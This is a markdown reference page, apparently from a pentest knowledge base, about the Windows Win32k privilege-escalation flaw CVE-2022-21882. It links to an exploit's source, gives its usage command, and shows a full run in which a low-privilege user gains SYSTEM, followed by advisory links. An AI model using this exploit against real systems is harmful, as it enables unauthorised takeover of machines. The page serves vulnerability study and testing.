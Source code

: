 ```yaml
---
title : "CVE-2022-21882"
# pre : ' '
description : "Win32k Elevation of Privilege Vulnerability."
date : 2022-01-30T15:48:19+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-1732 / CVE-2022-21882 - The revive of CVE-2021-1732

Win32k Elevation of Privilege Vulnerability. The Win32k elevation of privilege vulnerability was fixed this month as part of the January 2022 Patch Tuesday, it is the result of a bypass for the previously CVE-2021-1732 flaw that allows anyone to gain admin privileges in Windows 10.

## Installation

Build your own `.exe` from [source](https://github.com/KaLendsi/CVE-2022-21882).

## Usage

```plain
CVE-2021-1732.exe whoami
```

## Examples

```plain
Microsoft Windows [Version 10.0.17763.107]
(c) Microsoft Corporation. All rights reserved.

C:\Users\lowpriv> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
JohnDo
The command completed successfully.

C:\Users\lowpriv> whoami
desktop-qiv0pbc\lowpriv

C:\temp>CVE-2021-1732.exe whoami
CreateWnd
Hwnd:000b014a   qwfirstEntryDesktop=000001966C345110
BaseAddress:000001966C345000   RegionSize=:000000000001A000
Hwnd:00050406   qwfirstEntryDesktop=000001966C3431C0
BaseAddress:000001966C343000   RegionSize=:000000000001C000
Hwnd:000903b2   qwfirstEntryDesktop=000001966C342A20
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:000300d8   qwfirstEntryDesktop=000001966C342B70
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:0013016c   qwfirstEntryDesktop=000001966C341B90
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:00050414   qwfirstEntryDesktop=000001966C341CE0
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:0005017c   qwfirstEntryDesktop=000001966C341E30
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:000502da   qwfirstEntryDesktop=000001966C356830
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:00020384   qwfirstEntryDesktop=000001966C356980
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:000203ac   qwfirstEntryDesktop=000001966C356AD0
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Min BaseAddress:000001966C341000   RegionSize=:000000000001E000
realMagicHwnd=00000000000303AC
Free ExtraBytes:000000000000124D
set ExtraData == 00000000000431C0
Free ExtraBytes:000000000000124D
dwRet=000000000000FA90
tagWndMin_offset_0x128=000000000000FA90
g_qwvuln=FFFFB73700826960
qwFrist read=FFFFB73700831E70
qwSecond read=FFFFC98914160810
qwSecond read=FFFFB73701A00000
qwFourth read=FFFFB737017F8010
qwFifth read=FFFFC989207F2080
qwSixth read=FFFFC98921421300
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 11296!
===============================
nt authority\system
```

## URL List

* [Github.com - CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)
* [Nvd.nist.gov - CVE-2021-1732](https://nvd.nist.gov/vuln/detail/CVE-2021-1732)
* [Securityaffairs.co - Expert releases PoC for CVE-2022-21882 Windows local privilege elevation issue](https://securityaffairs.co/wordpress/127377/hacking/cve-2022-21882-win-local-privilege-elevation.html)
* [Twitter.com - @kalendsi](https://twitter.com/kalendsi/status/1483770845138804738)
* [Twitter.com - @0x6d69636b](https://twitter.com/0x6d69636b/status/1486960626220118017?s=11)
* [Nvd.nist.gov - CVE-2022-21882](https://nvd.nist.gov/vuln/detail/CVE-2022-21882)
* [Portal.msrc.microsoft.com - Win32k Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-21882)
